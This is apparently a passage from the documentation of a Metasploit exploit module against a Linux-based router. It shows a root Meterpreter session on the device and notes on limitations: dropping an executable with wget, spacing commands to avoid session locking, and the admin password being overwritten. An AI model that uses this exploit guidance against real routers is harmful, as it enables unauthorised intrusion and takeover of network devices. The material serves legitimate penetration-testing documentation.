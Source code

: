 ```msf

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.1.254
OS           :  (Linux 3.10.90)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter > pwd
/etc/boa
meterpreter > ls
Listing: /etc/boa
=================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
100755/rwxr-xr-x  9581     fil   2024-03-04 09:22:46 +0000  boa.conf
100755/rwxr-xr-x  2118     fil   2024-03-04 09:22:46 +0000  mime.types

meterpreter >
```
## Limitations
Staged payloads might core dump on the target, so use stage-less payloads when using the Linux Dropper target.
Another limitation is that the router has a very limited command set that can be leveraged,
so the only option is to use the `wget` command to drop an executable on the target to get a session.
Chained command lines using `;` do not work, so each command need to be executed in a separate request
with a delay of 30 seconds or more to avoid session locking (see the `CMD_DELAY` option).

Last but not least, be mindful that the admin router password gets overwritten by the exploit,
resulting in a clear indicator of compromise.
